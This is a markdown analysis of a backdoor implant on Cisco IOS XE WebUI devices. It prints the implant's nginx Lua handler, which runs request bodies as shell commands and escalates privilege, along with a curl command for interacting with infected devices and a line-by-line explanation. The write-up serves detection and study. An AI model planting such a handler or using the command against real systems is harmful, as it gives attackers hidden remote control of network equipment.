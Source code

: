 
# Cisco WebUI Shell - Nginx Configuration with Embedded Lua Script - Code Logic Explained

## Shell 1 was a simpler version of Shell 2 that did not check for authorization headers

## Shell 2 (October 20th)

- Where you see REDACTED the information was not provided by Cisco Talos.
- Known CURL for interacting with this is:
  
```shell
curl -k -H "Authorization: 0ff4fbf0ecffa77ce8d3852a29263e263838e9bb" -X POST "https[:]//DEVICEIP/webui/logoutconfirm.html?logon_hash=1"
```

```lua
location /webui/logoutconfirm.html {
    add_header Content-Type text/html;
    add_header Cache-Control 'no-cache, no-store, must-revalidate';
    add_header Pragma no-cache;
    add_header Strict-Transport-Security "max-age=31536000; includeSubdomains";
    content_by_lua '
        local authorized = false
        local content = ""
        local method = ngx.req.get_method()
        local headers = ngx.req.get_headers()
        local params = ngx.req.get_uri_args()

        if (method == "POST" and params ~= nil) then
            if (headers["Authorization"] ~= nil) then
                local authcode = string.gsub(headers["Authorization"], "^%s*(.-)%s*$", "%1")
                if (authcode ~= nil and string.match(authcode, "^%w+$") ~= nil) then
                    local f = io.popen("REDACTED", "r")
                    if (f ~= nil) then
                        local shasum = f:read("*all")
                        shasum = string.lower(shasum)
                        if string.find(shasum, "REDACTED") then
                            authorized = true
                        end
                        f:close()
                    end
                end
            end

            if (authorized == true) then
                ngx.req.read_body()
                local body = ngx.req.get_body_data()
                if (params["menu"] ~= nil and params["menu"] ~= "") then
                    content = "/2010202301/"
                elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "1") then
                    content = "REDACTED"
                elseif (params["logon_hash"] ~= nil and params["logon_hash"] == "REDACTED") then
                    if (params["common_type"] == "subsystem") then
                        local f = io.popen(body, "r")
                        if (f ~= nil) then
                            content = f:read("*all")
                            f:close()
                        end
                    elseif (params["common_type"] == "iox") then
                        ngx.req.set_header("Priv-Level", "15")
                        local result = ngx.location.capture("/lua5", {method=ngx.HTTP_POST, body=body})
                        local response = result.body
                        if not (response == nil or #response == 0) then
                            content = response
                        end
                    end
                end
            end
        end

        if (authorized == true) then
            ngx.status = 200
            ngx.say(content)
        else
            local result = ngx.location.capture("/internalWebui/login.html", {method = ngx.HTTP_GET})
            if result then
                ngx.status = result.status
                if result.body then
                    ngx.say(result.body)
                end
            end
        end
    ';
}

```

## Initial Setup

1. **Headers**: Several HTTP headers are set for the `/webui/logoutconfirm.html` location.
2. **Variables**: Three local variables `authorized`, `content`, and `method` are initialized.

## Authorization Check

1. **Request Method and Params**: Checks if the HTTP request method is POST and whether URI parameters exist.
2. **Authorization Header**: Looks for an "Authorization" header in the request.
    - If found, it trims and validates the header's value.
    - Executes an external command (redacted) and reads its output.
    - Compares this output to a specific string (also redacted) to set the `authorized` flag.

## Request Handling

1. **Body Reading**: If authorized, it reads the request body into a variable called `body`.
2. **Menu Check**: Checks for a `menu` parameter in the URI.
    - If it exists and is not empty, sets the `content` variable to "/2010202301/".
3. **Logon Hash Checks**: Two conditions based on the value of `logon_hash` parameter.
    - If it equals "1", sets `content` to a redacted string.
    - If it equals another redacted string, then:
        - **Subsystem**: Executes an external command using the body of the request and reads its output.
        - **IOx**: Changes the "Priv-Level" header and makes an HTTP POST request to another location, capturing its response.

## Final Output

1. **Authorized**: If the user was authorized, returns a 200 status code and the `content` variable as the body.
2. **Not Authorized**: If not authorized, makes an HTTP GET request to `/internalWebui/login.html` and returns its result (Note this is designed to trick you into believing it is safe.).
